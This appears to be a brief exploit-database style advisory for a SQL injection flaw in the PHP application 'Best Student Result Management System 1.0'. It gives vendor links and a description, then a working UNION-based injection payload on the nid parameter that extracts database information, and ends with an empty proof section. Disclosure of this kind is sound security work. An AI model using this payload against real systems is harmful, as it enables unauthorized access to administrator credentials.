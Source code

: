 #### Title: Best Student Result Management System 1.0 SQLi
#### Author: toyydsBT123
#### Date: 15.09.2022
#### Vendor: https://www.sourcecodester.com/users/mayurik
#### Software: https://www.sourcecodester.com/php/15653/best-student-result-management-system-project-source-code-php-and-mysql-free-download
#### Version: 1.0
#### Reference: 

#### Description:
### The joint query injects the selected item into the query, and can obtain system information and administrator account password. The SQL injection vulnerability on this page severely compromises the security, confidentiality of the application by exposing the application to administrator level information compromise.

# Status: CRITICAL

### [+] Payloads:

``` 
GET
?nid=2' union all select null,user(),null,null-- -
```

## Proof and Exploit:

